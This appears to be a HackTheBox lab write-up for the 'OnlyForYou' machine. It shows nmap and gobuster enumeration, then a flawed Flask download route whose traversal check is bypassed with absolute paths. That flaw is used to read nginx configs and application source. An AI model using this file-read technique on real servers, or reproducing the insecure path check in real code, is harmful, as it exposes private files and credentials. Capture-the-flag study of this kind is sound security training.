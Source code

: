 # HTB - OnlyForYou
## Start: 29/05/23
## IP: 10.10.11.210
---
## Info Gathering
### Nmap Scan
```
nmap -sV -sC 10.10.11.210                                                                                                          
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-29 17:28 BST
Nmap scan report for 10.10.11.210
Host is up (0.011s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e883e0a9fd43df38198aaa35438411ec (RSA)
|   256 83f235229b03860c16cfb3fa9f5acd08 (ECDSA)
|_  256 445f7aa377690a77789b04e09f11db80 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://only4you.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.03 seconds

```

### CURL
```
curl onlyforyou.htb                                                                        
<html>
<head><title>301 Moved Permanently</title></head>
<body>
<center><h1>301 Moved Permanently</h1></center>
<hr><center>nginx/1.18.0 (Ubuntu)</center>
</body>
</html>

curl -L onlyforyou.htb
curl: (6) Could not resolve host: only4you.htb

```

Included only4you.htb into `/etc/hosts` and website connects correctly.

### WEB ANALYSIS
### http://only4you.htb
Single page site interesting info:
- Link to beta.only4you.htb
- email address info@only4you.htb

### http://beta.only4you.htb
Site hosting demo tools interesting info:
- Source code downloadable
- "image resizer" tool
- "file converter" tool

### GOBUSTER dirs
Nothing for only4you.htb, stuff for beta.only4you.htb

```
 gobuster-linux-amd64/gobuster dir -u http://beta.only4you.htb/ -w ~/Programs/Security/Lists/SecLists/Discovery/Web-Content/raft-medium-words.txt               
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://beta.only4you.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/elliot/Programs/Security/Lists/SecLists/Discovery/Web-Content/raft-medium-words.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/04/29 17:43:02 Starting gobuster in directory enumeration mode
===============================================================
/download             (Status: 405) [Size: 683]
/list                 (Status: 200) [Size: 5934]
/source               (Status: 200) [Size: 12127]
/resize               (Status: 200) [Size: 2984] 
/convert              (Status: 200) [Size: 2760] 


```


## Vulnerability Hunting

### Source code analysis
Inital thoughts are on the download function within app.py 
```
@app.route('/download', methods=['POST'])
def download():
    image = request.form['image']
    filename = posixpath.normpath(image) 
    if '..' in filename or filename.startswith('../'):
        flash('Hacking detected!', 'danger')
        return redirect('/list')
    if not os.path.isabs(filename):
        filename = os.path.join(app.config['LIST_FOLDER'], filename)
    try:
        if not os.path.isfile(filename):
            flash('Image doesn\'t exist!', 'danger')
            return redirect('/list')
    except (TypeError, ValueError):
        raise BadRequest()
    return send_file(filename, as_attachment=True)
```
Exploiting this is just too easy, it just needs to be an absolute path and the application will happily provide any file as long as it exists.
![Directory Traversal 1](https://github.com/e-war/Writeups/blob/master/HackTheBox/OnlyForYou/Screenshots/directory_traversal1.png)

So 2 users we may need to look out for being John and Dev

## LFI Vulnerability
Using the Local File Inclusion vulnerability, i searched for default configuration files, knowing the site was hosted on NGINX, i searched
`/etc/nginx/nginx.conf` which didn't give anything useful, checking `/etc/nginx/sites-enabled/default` however...

```
server {
    listen 80;
    return 301 http://only4you.htb$request_uri;
}

server {
	listen 80;
	server_name only4you.htb;

	location / {
                include proxy_params;
                proxy_pass http://unix:/var/www/only4you.htb/only4you.sock;
	}
}

server {
	listen 80;
	server_name beta.only4you.htb;

        location / {
                include proxy_params;
                proxy_pass http://unix:/var/www/beta.only4you.htb/beta.sock;
        }
}
```

which led me to perform the same LFI on `/var/www/beta.only4you.htb/app.py` to see if we recieved the source code as expected...
```
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sat, 29 Apr 2023 18:31:20 GMT
Content-Type: text/x-python; charset=utf-8
Content-Length: 4551
Connection: close
Content-Disposition: attachment; filename=app.py
Last-Modified: Sun, 11 Dec 2022 13:25:09 GMT
Cache-Control: no-cache
ETag: "1670765109.8359272-4551-3480357964"

from flask import Flask, request, send_file, render_template, flash, redirect, send_from_directory
import os, uuid, posixpath
from werkzeug.utils import secure_filename
from pathlib import Path
from tool import convertjp, convertpj, resizeimg

app = Flask(__name__)
app.secret_key = uuid.uuid4().hex
...
```
I perform the same on the main page, stands to reason that the developer used the same python backend to host both, so i did the same on `/var/www/only4you.htb/app.py` ...
```
from flask import Flask, render_template, request, flash, redirect
from form import sendmessage
import uuid

app = Flask(__name__)
app.secret_key = uuid.uuid4().hex

@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        email = request.form['email']
        subject = request.form['subject']
        message = request.form['message']
        ip = request.remote_addr
        status = sendmessage(email, subject, message, ip)
...
```
This seems to be what controls that email form previously seen, i also attempted to see if this `form` import is also locally included in this directory. `/var/www/only4you.htb/form.py`
